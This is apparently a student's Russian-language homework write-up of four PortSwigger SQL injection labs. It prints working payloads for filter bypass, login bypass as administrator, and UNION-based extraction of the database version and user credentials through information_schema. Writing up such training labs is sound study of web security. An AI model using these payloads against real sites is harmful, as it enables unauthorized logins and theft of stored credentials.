

# Web Security Homework — SQL Injection (PortSwigger)

## Overview
В рамках задания были выполнены лабораторные работы по SQL Injection на платформе PortSwigger Web Security Academy.  
Цель — понять, как пользовательский ввод влияет на SQL-запросы и как это может привести к утечке данных или обходу аутентификации.

---

## Lab 1: SQL Injection — Hidden Data

### Цель
Получить доступ к скрытым (unreleased) товарам.

### Уязвимость
Параметр `category` напрямую вставлялся в SQL-запрос без фильтрации:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1

### Payload
' OR 1=1--

### Объяснение
- `'` закрывает строку  
- `OR 1=1` делает условие всегда истинным  
- `--` комментирует остаток запроса (`AND released = 1`)  

### Результат
Отображены все товары, включая скрытые.

---

## Lab 2: SQL Injection — Login Bypass

### Цель
Войти как пользователь `administrator` без пароля.

### Уязвимость
Поле `username` в login форме.

### Payload
administrator'--

### Объяснение
- `'` закрывает строку  
- `--` убирает проверку пароля  

### Результат
Успешный вход в систему как `administrator`.

---

## Lab 3: SQL Injection — UNION (Database Version)

### Цель
Получить версию базы данных.

### Шаг 1: Определение количества колонок
' UNION SELECT NULL,NULL--

→ определено: 2 колонки

### Шаг 2: Проверка выводимых колонок
' UNION SELECT 'AAA','BBB'--

→ обе колонки отображаются

### Payload
' UNION SELECT @@version,NULL--

### Объяснение
Используется UNION для объединения результатов оригинального запроса с результатом собственного запроса.

### Результат
На странице отображена версия базы данных.

---

## Lab 4: SQL Injection — UNION (Extracting Credentials)

### Цель
Получить логин и пароль администратора.

### Шаг 1: Найти таблицы
' UNION SELECT table_name,NULL FROM information_schema.tables--

### Шаг 2: Найти колонки
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_xxxxx'--

### Шаг 3: Получить данные
' UNION SELECT username_x,password_x FROM users_xxxxx--

### Объяснение
Используется `information_schema` для разведки структуры базы данных (таблицы и колонки), после чего извлекаются реальные данные.

### Результат
Получен пароль пользователя `administrator`, выполнен вход.

---

## Вывод
### Screenshot

В ходе выполнения лабораторных работ было изучено:

- базовая SQL injection (WHERE clause)
- обход аутентификации
- UNION-based SQL injection
- разведка структуры базы через information_schema
- извлечение конфиденциальных данных

Главный вывод: отсутствие фильтрации пользовательского ввода позволяет полностью контролировать SQL-запрос и получать доступ к данным.
